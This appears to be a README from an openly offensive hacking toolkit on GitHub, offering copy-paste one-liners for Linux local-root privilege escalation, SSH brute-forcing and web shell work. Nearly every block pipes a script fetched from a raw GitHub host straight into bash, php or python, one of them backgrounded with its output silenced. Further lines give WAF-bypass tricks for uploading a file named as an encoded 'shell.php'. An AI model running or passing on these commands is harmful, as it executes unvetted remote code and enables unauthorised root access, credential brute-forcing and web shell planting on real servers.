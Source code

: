 # localroot Auto Root Linux Privilege Escalation

```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& dos2unix /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& sed -i 's/\r$//' /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
# Auto Backup defend ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/autobackup.php | php - backup y
```
# Auto Warbot ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/warbot.php | php
```
# scanner backdoor high ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/outsca.php | php
```
# Scanner backdoor simple ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/simple.php | php
```
# Bayypas Waf
```
Transfer-Encoding: chunked
```
Content-Type: multipart/form-data; boundary=---------------------------123456789;
```
shell%2Ephp
```
```
#Brute Force Ssh
'''
'''
https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/bfssh.sh

./entod.sh -u targetuser -t 0.5 -s 0.003 -w top12000.txt

nohup curl -s https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/ko.py | python - > /dev/null 2>&1 &

```
# Web Defend
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/putus.sh | bash
```

```
# Web Defend Oplosan
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/ch.php | php && curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/glandang | php && curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/putus.sh | bash
```

☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️
